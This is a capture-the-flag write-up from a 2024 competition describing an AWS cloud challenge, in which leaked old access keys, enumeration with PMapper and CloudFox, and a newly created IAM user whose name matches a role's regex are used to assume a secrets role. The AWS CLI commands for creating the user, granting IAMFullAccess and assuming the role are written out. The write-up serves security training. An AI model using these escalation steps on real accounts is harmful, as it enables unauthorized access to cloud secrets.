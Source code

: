 ```yaml
---
title: Cloud 3 - Role Hijacking
description: The objective of the Cloud 3 - Role Hijacking challenge is to ese role hijacking techniques to escalate privileges and retrieve the flag.
date: 2024-11-11 00:00:00+0000
categories:
   - PWC HackADay 2024
   - CTF Writeup
tags:
   - Cloud
weight: 1     
---
```

# Cloud 3 - Role Hijacking

## Challenge Information
- **Name**: Cloud 3 - Role Hijacking
- **Points**: 150
- **Category**: Cloud
- **Objective**: Use role hijacking techniques to escalate privileges and retrieve the flag.

## Solution

1. **Accessing the Test User**:
   - Using the method earlier to access older version of files, you should already know that you will be needing the old `accessKeys.csv`
   - The old `accessKeys.csv` file contains credentials for the `testuser`.
   - Used these keys to log in to the AWS account.


   ![Old Access Keys](image.png)

   ![Whoami](image-1.png)

2. **Enumerating Permissions**:
   - **Manual Enumeration**:
     - Doing some basic enumeration, it indicated that `testuser` had limited permissions, leading to a dead end.
   - **Automated Tools**:
     - But I still used **PMapper** and **CloudFox** for more in-depth enumeration just in case I missed some
       - **PMapper**:
         - Builds a permissions graph similar to BloodHound but for AWS accounts.
         - Identified no direct escalation paths or relationships for `testuser`.
       - **CloudFox**:
         - Automated enumeration of potential AWS vulnerabilities and permissions.
         - Revealed a **`secret_reader` role**, capable of reading AWS contents.

3. **Role Hijacking**:
   - The `secret_reader` role permissions indicated a regex check on usernames, allowing anyone with a matching username to assume the role.
   - Created a new username in the account's Cognito (or relevant IAM platform) profile to match the regex.


   ![Regex Role](image-2.png)

   - You can definitely create a user that matches the regex using GUI, but I prefer to use CLI 
   - The commands I used are:

     ```bash
      # Creating a user with matching regex
      aws iam create-user --user-name hackaday2024_Malaysia_Chai_Cheng_Xun --profile ccx

      # Creating access keys for this user
      aws iam create-access-key --user-name hackaday2024_Malaysia_Chai_Cheng_Xun –profile ccx

      # Attaching full IAM policy to this user just in case
      aws iam attach-user-policy --user-name hackaday2024_Malaysia_Chai_Cheng_Xun --policy-arn arn:aws:iam::aws:policy/IAMFullAccess --profile ccx

      # Attaching sts:assumeRole so that this user can assume a role. I made sure that this user can only assume the challenge role
      aws iam put-user-policy --user-name hackaday2024_Malaysia_Chai_Cheng_Xun --policy-name AllowAssumeSecretRole --policy-document '{ "Version": "2012-10-17", "Statement": [ { "Effect": "Allow", "Action": "sts:AssumeRole", "Resource": "arn:aws:iam::491085415612:role/secret_role" } ] }' --profile ccx
     ```


4. **Assuming the Role**:
   - Used the new username and applied the following command to assume the `secret_reader` role:
   - 
     ```bash
     aws sts assume-role --role-arn arn:aws:iam::491085415612:role/secret_role --role-session-name hackaday --profile hijack
     ```
   - Received new **Access Key** and **Secret Access Key** for the `secret_reader` role.

5. **Retrieving the Flag**:
   - With elevated permissions, accessed the resources tied to the `secret_reader` role and retrieved the flag.


   ![Flag](image-3.png)
